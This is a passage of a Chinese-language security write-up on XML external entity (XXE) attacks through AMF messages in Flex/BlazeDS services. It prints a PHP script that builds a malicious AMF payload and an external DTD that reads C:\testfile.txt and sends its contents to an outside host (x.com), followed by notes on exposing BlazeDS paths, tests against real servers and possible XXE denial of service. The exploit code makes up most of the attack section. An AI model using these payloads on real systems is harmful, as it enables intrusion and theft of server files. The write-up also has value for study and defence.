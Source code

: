 其中调用的`amf_win.php`内容如下，该代码的作用就是输出一个恶意构造的含有XML的AMF数据：

```
<?php

function amf_exploit() {
    $header = pack('H*','00030000000100036162630003646566000000ff0a000000010f');
    $xml = '<!DOCTYPE x [ <!ENTITY % dtd SYSTEM "http://x.com/test/dyndtd_win.xml"> %dtd; ]><x/>';
    $xml_sz = pack('N', strlen($xml));
    return ($header . $xml_sz . $xml);  
}

header('Content-Type: application/x-amf');
print(amf_exploit());

?>

```

其中，调用的`dyndtd_win.xml`内容如下，目的就是读取C盘下的testfile.txt，然后发送至我们的服务器x.com上：

```
<!ENTITY % yolo SYSTEM 'file:///C:/testfile.txt'>
<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM 'http://x.com/?%yolo;'>">
%c;
%rrr;

```

接着，我们打开BurpSuite，访问我们精心构造的页面进行抓包。

![p4](http://drops.javaweb.org/uploads/images/8fe6c9ec42e047b5ec159f08b820997b2d52ab46.jpg)

可以看到，我们打开fortest.html后，burp会访问`amf_win.php`，在Wireshark中，我们可以看到我本机的C:\testfile.txt的内容this is a secret!被发送至服务器端。

0x06 额外
=====

1.  对于BlazeDS，你可以通过 %foo; ]>Parameter entity 3的方法来快速暴露出其所在的程序路径，接着就可以继续通过前面所述的方法来进行目录文件列举，寻找我们感兴趣的文件。如下图所示：
    
    ![p5](http://drops.javaweb.org/uploads/images/ed8e915dbd7959b9ec432b96e429abd2b6e0bef6.jpg)
    
2.  XXE读取文件内容上的限制使得我们能读取的敏感内容受到限制，具体如何利用该漏洞进行下一步，就看各自的发挥了。
    
3.  在一些对实际案例的测试（包括腾讯某服务器或是一些vCloud Director服务器）中发现，如果使用外部的DTD，一些服务器返回的错误信息是如下的样子：
    
    ```
    [!] Connection OK, but a timeout was reached...
    
    ```
    
    造成这个错误信息的原因猜测可能是服务器禁止了外部资源的访问。对于这些服务器，无法使用外部DTD，参数实体又只能在外部DTD中被引用，使得上述的报错读取文件的方法变得不可行。不过，通过XXE来进行拒绝服务可能是可行的，由于担心对目标服务器造成不良影响，并未进行进一步的测试。